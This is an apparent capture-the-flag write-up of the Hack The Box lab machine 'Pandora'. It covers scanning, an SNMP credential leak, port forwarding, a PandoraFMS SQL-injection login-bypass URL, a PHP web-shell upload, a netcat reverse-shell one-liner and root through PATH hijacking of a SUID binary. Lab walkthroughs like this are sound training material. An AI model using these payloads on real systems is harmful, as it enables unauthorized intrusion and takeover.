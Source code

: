 # Pandora Write-up
Hi everyone, let's start to h4ck !
## Description
The box is available [here](https://app.hackthebox.com/machines/Pandora) if you want to try before read this write-up !

 - OS : Linux
 - Release date : 08 january 2022
 - Difficulty : easy
 - Points : 20
 - IP Adress : ```10.10.11.136```

Pandora is a nice box for beginner and interesting to learn new tools.

## Foothold
### Scanning The Box :
So first, we gonna scan the IP adress with the popular tool **Nmap** with the command :
```markdown
nmap 10.10.11.136 -sC -sV -p-
```

We have the following result :
```markdown
# Nmap 7.91 scan initiated Sun Feb 20 21:02:20 2022 as: nmap -p- -sC -sV -oA scan_nmap 10.10.11.136
Nmap scan report for Pandora.htb (10.10.11.136)
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 21:02:42 2022 -- 1 IP address (1 host up) scanned in 21.80 seconds
```
We can see there is two open ports : *HTTP* (80) and *SSH* (22).

The SSH version seems not be vulnerable to a CVE, so we gonna check the website with **Nikto** and **Gobuster**.
```markdown
nikto -h 10.10.11.136
gobuster dir --url http://10.10.11.136 -w /usr/share/wordlist/dirb/big.txt -x html,php,txt,xml,bak,zip
```

We have find some infos and files but nothing interesting.

I try to re-check my scan with **Nmap** but here, I made a *UPD-Scan* :
```markdown
nmap 10.10.11.136 -sU
```
Now, we have a new port, a UDP-port :
```markdown
161/udp open|filtered snmp   SNMPv1 server; net-snmp SNMPv3 server (public)
```
SNMP is short of *Simple Network Management Protocol*. The explaination can be find [here](https://www.manageengine.com/fr/network-monitoring/what-is-snmp.html)

### Interaction with the SNMP server : 
Here we use *snmp-check*, a tool already installed in Kali-linux.
The syntax is simple: 
```markdown
snmp-check -p 161 10.10.11.136
```
After do this, we have got a long output and when we read it, we can see this interesting line:
```markdown
850                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
```
There is a process which use credentials of the user *Daniel* !

So we can use *SSH* now !

## User Flag
First, we check the other users present in the box. There is another user who call *Matt*.
```markdown
cat /etc/paswd | grep /bin/bash
```
```markdown
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
We have no flag in our account so the user flag is in *Matt*'s account.
### Analyse the box 
We need to upgrade our lower access to a higher access to become *Matt*.

We can check the *SUID* files:
```markdown
find / -type f -perm /6000 -ls 2>/dev/null
```
We can do a ```sudo -l``` or a ```cat /etc/crontab``` too but we have nothing interesting.

We can use a popular automated tool which call [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) to check all the misconfigurations present.
But with LinPEAS, we found nothing.

We read the hosts file.
```markdown
cat /etc/hosts
127.0.0.1       localhost
```

We try to cURL the localhost with ````curl 127.0.0.1```` and there is a website made with [*PandoraFMS*](https://pandorafms.com).

### Access to the site

So we have access to the site in local only. It is the best moment to introduce the tool [**Chisel**](https://github.com/jpillora/chisel).

**Chisel** is using for port fowarding, so here, we use it to forward the local website to our machine. After upload the binary, we use the following commands:

In our machine:
```markdown
./chisel server -p 8888 -reverse
```

In *Daniel*'s machine:
```markdown
./chisel client {YOUR_IP}:8888 R:8889:localhost:80
```

Now, go in our web browser and we have access to the site.

![alt text](https://github.com/Vssksj/Write-up/tree/main/HackTheBox/Pandora/IMG/web_pandora.jpg)

As you see, there is a login/password page. We test admin/admin ; admin/password but no result.

In the bottom, there is the version of *PandoraFMS* : ````v7.0NG.742````. Go check if there is a exploit for this version and when we search a little, we found 
a *bypass authentification* with a [Youtube Video](https://youtu.be/61KE45V7VT8). The bypass works with a *SQL injection*. Now, we are admin of the website. 

The exploit is:
```markdown
include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

### Become Matt
We need a shell as *Matt*, so we gonna upload a reverse shell in the extensions part. We can't directly upload a php file but we can bypass this with a ```.zip``` file which content our shell. 

![alt text](https://github.com/Vssksj/Write-up/tree/main/HackTheBox/Pandora/IMG/upload_zip.png)

Now, go in ````http://localhost:8889/pandora_console/extensions/{YOUR_PAYLOAD}.php````. Here, it is a web shell because a try a reverse shell but it didn't work. After, in my web shell, I put a reverse shell with ````rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f```` and it worked. We are *Matt* !

![alt text](https://github.com/Vssksj/Write-up/tree/main/HackTheBox/Pandora/IMG/id_matt.png)

To have a better shell, put your public *SSH* key in the ````/home/matt/.ssh/authorized_keys````. Then connect with:
```markdown
ssh -i {YOUR_PRIVATE_KEY} matt@10.10.11.136
```
And you will be in *SSH*.

![alt text](https://github.com/Vssksj/Write-up/tree/main/HackTheBox/Pandora/IMG/id_rsa_matt.png)

## Privilege Escalation
The last step of the challenge is easy. Just made a basic enumeration and you will find a *SUID* file which call ````/usr/bin/pandora_backup````.

If we make a ````cat````, we see that the binary execute **tar**. 

To exploit this, it is really simple:
 - go in ````/tmp```` and create a file contain ````/bin/bash````. 
 - rename the file as ````tar````.
 - change the permissions 
 - export the *$PATH*

So let's do this:
```markdown
cd /tmp
echo '/bin/bash' > tar
chmod 777 tar
export PATH=/tmp:$PATH
```

When we execute the binary: 

![alt text](https://github.com/Vssksj/Write-up/tree/main/HackTheBox/Pandora/IMG/id_root.png)

BOOM ! We are ROOT !

*Note: It really important to run this in SSH beause when I tried in a 'bad shell', it didn't work.*

## Conclusion
This box was really fun and good for the beginners because you can learn notion as *Port Forwarding*, *Privilege Escalation* and *UDP Scan*. I recommend this box, 5 stars.

Thanks for reading ! :) 
